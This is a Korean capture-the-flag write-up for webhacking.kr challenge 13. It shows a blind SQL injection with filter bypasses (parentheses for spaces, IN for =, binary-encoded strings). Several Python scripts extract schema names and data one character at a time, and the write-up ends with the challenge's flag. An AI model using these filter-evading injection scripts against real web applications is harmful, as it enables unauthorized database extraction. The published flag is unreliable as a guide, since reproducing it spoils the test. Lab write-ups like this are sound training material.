





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**

***


# **Description**




# **Write-Up**

아무거나 넣어보고 제출을 누르면 no라는 변수에 GET method로 값을 전달한다.



sleep(2)를 넣으면 SQLi가 통한다는 것을 알 수 있다.



다양한 필터링이 걸려있다. space는 ()를 이용하여 우회하고 =는 in함수를 이용하자.

(0)or(1)를 전달하여 참을 만들면 result가 1이라는 것을 알 수 있다.



현재 사용중인 database명의 길이는 다음과 같다.

```python
import urllib.request

database_len    = 0
for i in range(1, 100):
    query   = '(0)or(LENGTH(DATABASE())IN({}))'.format(i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        database_len = i
        break

print("db name len : {}".format(database_len))

[Output]
db name len : 7
```

database명은 다음과 같다.

```python
import urllib.request
import string

database_len    = 7
database_name   = ''
for i in range(1, database_len + 1):
    for c in string.printable.strip():
        query   = '(0)or(ord(substr(database(),{},1))IN({}))'.format(i, ord(c))
        url     = 'https://webhacking.kr/challenge/web-10/?no='+query
        request = urllib.request.Request(url)
        request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
        response= urllib.request.urlopen(request)

        if '<td>1</td>' in response.read().decode():
            database_name += c
            break
print("db name : {}".format(database_name))

[Output]
db name : chall13
```

현재 데이터베이스의 테이블 개수를 구하자. database_name을 binary로 변환한 이유는 "chall13", CHAR(), 0x~~ 모두 필터링 되기 때문이다. 물론, chall13 db를 사용중이니 DATABASE()로 바꾸어 해도 무방하다.

* information_schema.TABLES에서 DB명과 TABLE_SCHEMA이 일치하는 TABLE_NAME의 갯수

```python
import urllib.request
import binascii

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 0
for i in range(1, 100):
    query   = '(0)or(SELECT(COUNT(IF((SELECT(TABLE_SCHEMA)IN({0})),TABLE_NAME,NULL)))FROM(information_schema.TABLES))IN({1})'.format(database_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        number_of_tables = i
        break

print("number of tables : {}".format(number_of_tables))

[Output]
number of tables : 2
```

테이블 개수를 구한 이유는 limit이 필터링되기 때문에 구하였다. table명은 같지 않기 때문에 min, max 함수를 이용하여 모든 테이블을 구할 수 있을 것이다.

min을 이용하여 추출한 테이블 명의 길이를 구하자.

```python
import urllib.request
import binascii

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 0
for i in range(1, 100):
    query   = '(0)or(LENGTH((SELECT(MIN(IF((SELECT(TABLE_SCHEMA)IN({0})),TABLE_NAME,NULL)))FROM(information_schema.TABLES)))IN({1}))'.format(database_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        min_table_len = i
        break

print("[min] table len : {}".format(min_table_len))

[Output]
[min] table len : 13
```

max을 이용하여 추출한 테이블 명의 길이를 구하자.

```python
import urllib.request
import binascii

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
max_table_len   = 0
for i in range(1, 100):
    query   = '(0)or(LENGTH((SELECT(MAX(IF((SELECT(TABLE_SCHEMA)IN({0})),TABLE_NAME,NULL)))FROM(information_schema.TABLES)))IN({1}))'.format(database_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        max_table_len = i
        break

print("[max] table len : {}".format(max_table_len))

[Output]
[max] table len : 4
```

min을 이용하여 추출한 테이블 명을 구하자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = ''
max_table_len   = 4
for i in range(1, min_table_len + 1):
    for c in string.printable.strip():
        query   = '(0)or(ORD(SUBSTR((SELECT(MIN(IF((SELECT(TABLE_SCHEMA)IN({})),TABLE_NAME,NULL)))FROM(information_schema.TABLES)),{},1))IN({}))'.format(database_name, i, ord(c))
        url     = 'https://webhacking.kr/challenge/web-10/?no='+query
        request = urllib.request.Request(url)
        request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
        response= urllib.request.urlopen(request)

        if '<td>1</td>' in response.read().decode():
            min_table_name += c
            break

print("[min] table name : {}".format(min_table_name))

[Output]
[min] table name : flag_ab733768
```

max을 이용하여 추출한 테이블 명을 구하자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
min_table_name  = ''
for i in range(1, max_table_len + 1):
    for c in string.printable.strip():
        query   = '(0)or(ORD(SUBSTR((SELECT(MAX(IF((SELECT(TABLE_SCHEMA)IN({})),TABLE_NAME,NULL)))FROM(information_schema.TABLES)),{},1))IN({}))'.format(database_name, i, ord(c))
        url     = 'https://webhacking.kr/challenge/web-10/?no='+query
        request = urllib.request.Request(url)
        request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
        response= urllib.request.urlopen(request)

        if '<td>1</td>' in response.read().decode():
            min_table_name += c
            break

print("[max] table name : {}".format(min_table_name))

[Output]
[max] table name : list
```

FLAG는 아무래도 flag_ab733768테이블에 들어있을 것 같다. 컬럼 갯수를 구해보자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
max_table_name  = bin(int(binascii.hexlify("list".encode()),16))
number_of_min_table_columns = 0
for i in range(1, 100):
    query   = '(0)or(SELECT(COUNT(IF((SELECT(TABLE_NAME)IN({0})),COLUMN_NAME,NULL)))FROM(information_schema.COLUMNS))IN({1})'.format(min_table_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        number_of_min_table_columns = i
        break

print("number of columns : {}".format(number_of_min_table_columns))

[Output]
number of columns : 1
```

1개이니 min을 쓰든 max를 쓰든 상관없겠다. 바로 컬럼 명 길이를 구하자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
max_table_name  = bin(int(binascii.hexlify("list".encode()),16))
number_of_min_table_columns = 1

for i in range(1, 100):
    query   = '(0)or(LENGTH((SELECT(MIN(IF((SELECT(TABLE_NAME)IN({0})),COLUMN_NAME,NULL)))FROM(information_schema.COLUMNS)))IN({1}))'.format(min_table_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        min_table_column_len = i
        break

print("min_table_column_len : {}".format(min_table_column_len))

[Output]
min_table_column_len : 13
```

컬럼 명을 구하자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
max_table_name  = bin(int(binascii.hexlify("list".encode()),16))
number_of_min_table_columns = 1
min_table_column_len = 13
column_name     = ''

for i in range(1, min_table_column_len + 1):
    for c in string.printable.strip():
        query   = '(0)or(ORD(SUBSTR((SELECT(MAX(IF((SELECT(TABLE_NAME)IN({})),COLUMN_NAME,NULL)))FROM(information_schema.COLUMNS)),{},1))IN({}))'.format(min_table_name, i, ord(c))
        url     = 'https://webhacking.kr/challenge/web-10/?no='+query
        request = urllib.request.Request(url)
        request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
        response= urllib.request.urlopen(request)

        if '<td>1</td>' in response.read().decode():
            column_name += c
            break

print("column_name : {}".format(column_name))

[Output]
column_name : flag_3a55b31d
```

테이블 데이터 개수를 구하자. FROM 구문은 테이블 명이 들어가야하므로 binary변환하지 않고 한다.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = 'flag_ab733768' #bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
max_table_name  = bin(int(binascii.hexlify("list".encode()),16))
number_of_min_table_columns = 1
min_table_column_len = 13
column_name     = bin(int(binascii.hexlify("flag_3a55b31d".encode()),16))
number_of_cols  = 2
for i in range(1, 100):
    query   = '(0)or(SELECT(COUNT({0}))FROM({1}))IN({2})'.format(column_name, min_table_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        number_of_cols = i
        break

print("number_of_cols : {}".format(number_of_cols))

[Output]
number_of_cols : 2
```

그러고 보니 필터링도 안걸려있는데 binary로 변환할 필요가 없는 것같다. 데이터 개수가 2개이니 min, max를 활용하여 각각 데이터 길이를 구하자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = 'flag_ab733768' #bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
max_table_name  = bin(int(binascii.hexlify("list".encode()),16))
number_of_min_table_columns = 1
min_table_column_len = 13
column_name     = 'flag_3a55b31d' #bin(int(binascii.hexlify("flag_3a55b31d".encode()),16))
number_of_cols  = 2
min_colum_len   = 0
max_colum_len   = 0

for i in range(1, 100):
    query   = '(0)or(LENGTH((SELECT(MIN({}))FROM({})))IN({}))'.format(column_name, min_table_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        min_colum_len = i
        break

print("min_colum_len : {}".format(min_colum_len))

for i in range(1, 100):
    query   = '(0)or(LENGTH((SELECT(MAX({}))FROM({})))IN({}))'.format(column_name, min_table_name, i)
    url     = 'https://webhacking.kr/challenge/web-10/?no='+query
    request = urllib.request.Request(url)
    request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
    response= urllib.request.urlopen(request)

    if '<td>1</td>' in response.read().decode():
        max_colum_len = i
        break

print("max_colum_len : {}".format(max_colum_len))

[Output]
min_colum_len : 4
max_colum_len : 27
```

데이터 길이를 봤을 때, max일때가 FLAG일 확률이 높다. 그래도 2개다 구해보자.

```python
import urllib.request
import binascii
import string

database_len    = 7
database_name   = bin(int(binascii.hexlify("chall13".encode()),16))
number_of_tables= 2
min_table_len   = 13
min_table_name  = 'flag_ab733768' #bin(int(binascii.hexlify("flag_ab733768".encode()),16))
max_table_len   = 4
max_table_name  = bin(int(binascii.hexlify("list".encode()),16))
number_of_min_table_columns = 1
min_table_column_len = 13
column_name     = 'flag_3a55b31d' #bin(int(binascii.hexlify("flag_3a55b31d".encode()),16))
number_of_cols  = 2
min_col_len     = 4
max_col_len     = 27
min_data        = ''
max_data        = ''

for i in range(1, min_col_len + 1):
    for c in string.printable.strip():
        query   = '(0)or(ORD(SUBSTR((SELECT(MIN({}))FROM({})),{},1))IN({}))'.format(column_name, min_table_name, i, ord(c))
        url     = 'https://webhacking.kr/challenge/web-10/?no='+query
        request = urllib.request.Request(url)
        request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
        response= urllib.request.urlopen(request)

        if '<td>1</td>' in response.read().decode():
            min_data += c
            break

print("min_data : {}".format(min_data))

for i in range(1, max_col_len + 1):
    for c in string.printable.strip():
        query   = '(0)or(ORD(SUBSTR((SELECT(MAX({}))FROM({})),{},1))IN({}))'.format(column_name, min_table_name, i, ord(c))
        url     = 'https://webhacking.kr/challenge/web-10/?no='+query
        request = urllib.request.Request(url)
        request.add_header('Cookie','PHPSESSID=dstbkgs3vaapa253r1c29are2b')
        response= urllib.request.urlopen(request)

        if '<td>1</td>' in response.read().decode():
            max_data += c
            break

print("max_data : {}".format(max_data))

[Output]
min_data : flag
max_data : FLAG{challenge13gummyclear}
```

엄청나게 빡쎘다. max로 뽑은 데이터를 넣고 Auth버튼을 누르면 점수를 획득할 수 있다.




# **FLAG**

**FLAG{challenge13gummyclear}**